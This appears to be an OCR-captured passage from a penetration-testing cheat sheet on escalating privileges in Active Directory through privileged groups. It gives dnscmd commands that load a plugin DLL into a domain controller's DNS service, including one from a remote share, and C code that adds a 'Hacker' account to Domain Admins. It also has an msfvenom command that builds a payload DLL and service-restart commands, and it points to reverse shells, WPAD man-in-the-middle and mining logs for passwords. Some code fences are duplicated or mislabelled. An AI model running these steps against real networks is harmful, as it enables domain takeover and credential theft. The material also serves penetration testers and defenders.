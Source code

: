 ```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:

# If dnscmd is not installed run from aprivileged PowerShell session:
Install-WindowsFeature -Name RSAT-DNS-Server -IncludeManagementTools
```
```
```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```
```
```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
```
Restarting the DNS service (which may require additional permissions) is necessary for the DLL to be loaded:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
```
For more details on this attack vector, refer to ired.team.

#### Mimilib.dll

It's also feasible to use mimilib.dll for command execution, modifying it to execute specific commands or reverse shells. [[https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html|Check this post]] for more information.

### WPAD Record for MitM

DnsAdmins can manipulate DNS records to perform Man-in-the-Middle (MitM) attacks by creating a WPAD record after disabling the global query block list. Tools like Responder or Inveigh can be used for spoofing and capturing network traffic.

### Event Log Readers
Members can access event logs, potentially finding sensitive information such as plaintext passwords or command execution details:

```bash
# Get members and search logs for sensitive information
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'}
```
```
## Exchange Windows Permissions

This group can modify DACLs on the domain object, potentially granting DCSync privileges. Techniques for privilege escalation exploiting this group are detailed in Exchange-AD-Privesc GitHub repo.

```bash
# List members
Get-NetGroupMember -Identity "Exchange Windows Permissions" -Recurse
```